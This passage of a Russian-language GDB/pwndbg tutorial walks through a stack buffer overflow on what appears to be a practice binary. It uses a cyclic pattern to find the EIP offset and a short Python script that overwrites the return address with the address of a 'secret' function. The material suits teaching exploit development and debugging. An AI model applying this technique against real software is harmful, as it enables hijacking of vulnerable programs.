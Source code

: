 ### 5. Создайте циклический паттерн для определения смещения

```
pattern create 100
```

### 6. Запустите программу с паттерном

```
run
# Введите сгенерированный паттерн
```

### 7. После краха программы определите смещение

```
pattern search $eip
```

### 8. Используйте найденное смещение для создания эксплойта

```python
# exploit.py
import struct

offset = 76  # значение, полученное с помощью pattern search
target_addr = 0x080484b6  # адрес функции secret

payload = b"A" * offset
payload += struct.pack("<I", target_addr)

with open("exploit_input", "wb") as f:
    f.write(payload)
```

### 9. Проверьте эксплойт в отладчике

```
run < exploit_input
```

### 10. Убедитесь, что EIP указывает на адрес функции secret

```
info registers eip
```

## Советы по использованию GDB с pwndbg

### Настройка автоматического запуска команд
